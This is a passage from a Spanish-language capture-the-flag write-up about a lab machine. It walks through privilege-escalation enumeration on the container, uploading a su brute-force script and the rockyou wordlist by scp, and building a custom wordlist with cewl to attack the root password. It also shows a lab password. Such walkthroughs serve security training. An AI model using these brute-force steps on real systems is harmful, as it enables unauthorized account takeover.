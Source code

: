 Enumeracion usuario:
```bash
sudo -l
[sudo] password for cracker: 
Sorry, user cracker may not run sudo on 5e6ebf868c2c.

find / -perm -4000 2>/dev/null # Ningun binario peligroso
getcap -r / 2>/dev/null # sin permisos capabilities
ls -la /tmp
ls -la /opt
find / -iname ".secret*" 2>/dev/null
```

Lo que aremos es realizar ataque de fuerza bruata para el usuario **root**
Ahora por **ssh** transferiremos a la maquina victima las siguientes herrramientas para realizar un ataque de fuerza bruta al usuario privilegiodo.
```bash
cp /usr/bin/Sudo_BruteForce/Linux-Su-Force.sh .
cp /usr/share/wordlists/rockyou.txt .
```

Ya teniendo estas dos herramientas listas en nuestro directorio de trabajo:
```bash
Linux-Su-Force.sh rockyou.txt
```

procedemos a transferirlos a la maquina victima:
```bash
❯ scp Linux-Su-Force.sh cracker@172.17.0.2:/home/cracker
cracker@172.17.0.2's password: 
Linux-Su-Force.sh

❯ scp rockyou.txt cracker@172.17.0.2:/home/cracker
cracker@172.17.0.2's password: 
rockyou.txt                                             
```

Si listamos desde la maquina victima, ya tiene estas dos herramientas:
```bash
cracker@5e6ebf868c2c:~$ ls
Linux-Su-Force.sh  rockyou.txt
```

Procedemos a realizar el ataque:
```bash
bash Linux-Su-Force.sh root rockyou.txt
```

Pero no tuvimos exito asi que crearemos un diccionario basado en las palabras de la web con el comando **cewl**
```bash
cewl http://japan.cracker.dl/ -w diccionario.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

Ahora se lo transferimos a la maquina victima:
```bash
scp diccionario.txt cracker@172.17.0.2:/home/cracker
cracker@172.17.0.2's password: #P@$$w0rd!%#S€c7T
diccionario.txt
```
